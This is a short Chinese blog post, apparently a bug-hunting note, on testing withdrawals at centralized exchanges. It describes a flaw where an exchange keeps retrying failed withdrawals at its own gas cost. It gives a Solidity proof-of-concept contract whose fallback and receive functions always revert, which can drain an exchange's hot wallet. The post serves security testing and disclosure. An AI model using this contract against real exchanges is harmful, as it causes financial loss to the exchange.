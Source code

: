 ```yaml
---
title: "中心化交易所提现测试-Gas消耗测试"
date: 2023-06-29T0:18:30-04:00
categories:
  - experience
tags:
  - experience
---
```


## 中心化交易所提现测试-Gas消耗测试

在测试提现功能的时候，需要留意下如果提现失败的场景，用户是否需要继续重新支付Gas Fee，如果需要重新支付Gas Fee的情况，那就没问题；如果是无需用户重新支付Gas Fee的情况就需要注意了，之前在挖掘漏洞的过程中就遇到过类似的情况，提现的时候只收了一次Gas Fee，提现的交易被合约回退了以后，交易所还会继续尝试提现（此时Gas Fee由交易所自己出），这种设计可能会导致热钱包资金被耗尽。

Poc:
```
pragma solidity ^0.8.0;


contract Burn{
    address private owner ;
    constructor() payable{
        owner = msg.sender;
    }


    function transferEth(address payable _addr,uint256 _value) external payable{
        require(owner == msg.sender,"!owner!");
        _addr.transfer(_value);
    }


    fallback() payable external{
        revert();
    }
    receive() payable external {
        revert();                          
    }
}

```
